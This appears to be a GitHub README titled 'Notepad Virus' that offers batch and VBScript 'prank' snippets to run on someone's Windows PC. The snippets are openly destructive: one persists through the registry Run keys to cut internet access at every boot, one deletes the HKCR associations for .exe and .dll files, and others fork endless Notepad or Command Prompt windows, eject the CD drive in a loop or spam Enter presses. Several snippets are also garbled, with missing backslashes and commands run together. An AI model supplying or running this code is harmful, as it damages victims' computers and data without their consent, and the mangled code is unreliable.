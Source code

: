 # Notepad Virus

## 🦠Top Prank Virus Making Commands From Notepad🦠


### 🟣1. Disable Internet Permanently :-
```bash  
echo @echo off>c:windowswimn32.bat
echo break off>c:windowswimn32.bat echo
ipconfig/release_all>c:windowswimn32.bat
echo end>c:windowswimn32.batreg add
hkey_local_machinesoftwaremicrosoftwindowscurrentversionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.bat /freg add
hkey_current_usersoftwaremicrosoftwindowscurrentversionrun /v CONTROLexit /t reg_sz /d c:windowswimn32.bat /fecho You Have Been HACKED!
PAUSE
```
### 🃏Action :-  This will disable the internet connectivity permanently.



### 🟣2.  Delete Key Registry Files :-

```bash
@ECHO OFF
START reg delete HKCR/.exe
START reg delete HKCR/.dll
START reg delete HKCR/*
:MESSAGE
ECHO Your PC has been crashed.Your Dad.
GOTO MESSAGE
```
### 🃏Action :- This will delete key registry files, then loops a message

## 🟣3.Endless Notepads :-
```bash 
@ECHO off
:top
START %SystemRoot%\system32\notepad.exe
GOTO top
```
### 🃏Action :- This will pop up endless notepads until the computer freezes and crashes


### 🟣4. Popping Cd Drive :- 
```bash
Set oWMP = CreateObject(”WMPlayer.OCX.7″)
Set colCDROMs = oWMP.cdromCollection
do
if colCDROMs.Count >= 1 then
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
End If
wscript.sleep 100
loop
```

### 🃏Action :- This will make the CD drives constantly pop out


## 🟣 5. Endless Enter :-

```bash 
Set wshShell = wscript.CreateObject(”WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “~(enter)”
loop
```
### 🟣1. Cmd tab spam  :-
```
:loopstart
start
goto loopstart
```
### 🃏Action :- This opens Command Prompt tabs in a loop, freezing the system until manually shut down..
